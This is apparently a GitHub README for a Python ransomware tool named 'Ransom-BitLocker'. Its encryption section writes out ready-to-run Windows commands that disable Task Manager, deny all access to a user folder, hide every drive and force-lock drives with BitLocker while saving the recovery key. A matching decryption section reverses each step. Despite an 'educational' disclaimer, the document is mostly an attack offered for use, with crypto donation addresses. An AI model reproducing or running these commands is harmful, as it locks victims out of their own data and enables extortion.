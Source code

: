 <div align="center">
  <h1><b>Ransom-BitLocker (Encryption & Decryption)</b></h1>
  <img src="Bitlocker.png" alt="BitLocker" width="300">
</div>

## Requirements
- **Python Version**: 3.11.4 (Version I'm using)
- **Dependencies**: Install the required Python package using
  ```bash
  pip install requests
  
## Information About Encryption
1. **Disable TaskManager**  
   - **Note**: Disable TaskManager immediately (Return `1` to disable)  
     ```cmd
     reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_DWORD /d 1 /f
     ```

2. **Lock User Folder**  
   - **Note**: Deny all access (read, write, delete, etc.) to the folder `folder_path`  
     ```cmd
     icacls folder_path /deny everyone:(OI)(CI)F
     ```

3. **Hide All Drives**  
   - **Drive Values**: A:1 - B:2 - C:4 - D:8 - E:16 - F:32 - G:64 - H:128 - I:256 - J:512 - K:1024 - L:2048 - M:4096 - N:8192 - O:16384 - P:32768 - Q:65536 - R:131072 - S:262144 - T:524288 - U:1048576 - V:2097152 - W:4194304 - X:8388608 - Y:16777216 - Z:33554432  
   - **Note**: `67108863` is the total parameters of all drives that need to be hidden  
     ```cmd
     reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoDrives /t REG_DWORD /d 67108863 /f
     ```

4. **Generate Recovery Key and Lock Drive**  
   - **Turn on BitLocker and save the recovery key**:  
     ```cmd
     manage-bde -on {drive_letter}: -rp -used > {file_path}
     ```  
   - **Lock the drive and disconnect other programs using that drive**:  
     ```cmd
     manage-bde -lock {drive_letter}: -ForceDismount
     ```

## Information About Decryption
1. **Enable TaskManager**  
   - **Note**: Enable TaskManager immediately (Return `0` to enable)  
     ```cmd
     reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_DWORD /d 0 /f
     ```

2. **Unlock User Folder**  
   - **Note**: Allow all access (read, write, delete, etc.) to the folder `folder_path`  
     ```cmd
     icacls folder_path /remove:d everyone
     ```

3. **Show All Drives**  
   - **Drive Values**: A:1 - B:2 - C:4 - D:8 - E:16 - F:32 - G:64 - H:128 - I:256 - J:512 - K:1024 - L:2048 - M:4096 - N:8192 - O:16384 - P:32768 - Q:65536 - R:131072 - S:262144 - T:524288 - U:1048576 - V:2097152 - W:4194304 - X:8388608 - Y:16777216 - Z:33554432  
   - **Note**: `0` to show all drives (remove hiding)  
     ```cmd
     reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoDrives /t REG_DWORD /d 0 /f
     ```

4. **BitLocker Decryption**  
   - **Unlock BitLocker encrypted `{drive_letter}` drive using recovery password `{recovery_key}`**:  
     ```cmd
     manage-bde -unlock {drive_letter}: -RecoveryPassword {recovery_key}
     ```  
   - **Turn off BitLocker encryption on drive `{drive_letter}`**:  
     ```cmd
     manage-bde -off {drive_letter}
     ```
## License
This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Disclaimer
This project is intended solely for **educational and research purposes**. It provides tools and examples for understanding BitLocker encryption and decryption mechanisms. **Do not use this project for any malicious or unauthorized activities**, as such actions may violate applicable laws and regulations.

The author is not responsible for any damage, data loss, or legal consequences resulting from the use or misuse of this project. Always test and validate the code in a controlled, secure environment before applying it to critical systems. Ensure you have proper authorization and backups before performing any encryption or decryption operations.

## Donate ⭐
- **USDT (TRC-20)**: `TCLCdvvvgy6Pbj5VnTzaYBwGKzBDyBEyGL`
- **BTC**: `3EALRZzA5vp7i6kXhELTujphiJC4WwZESF`
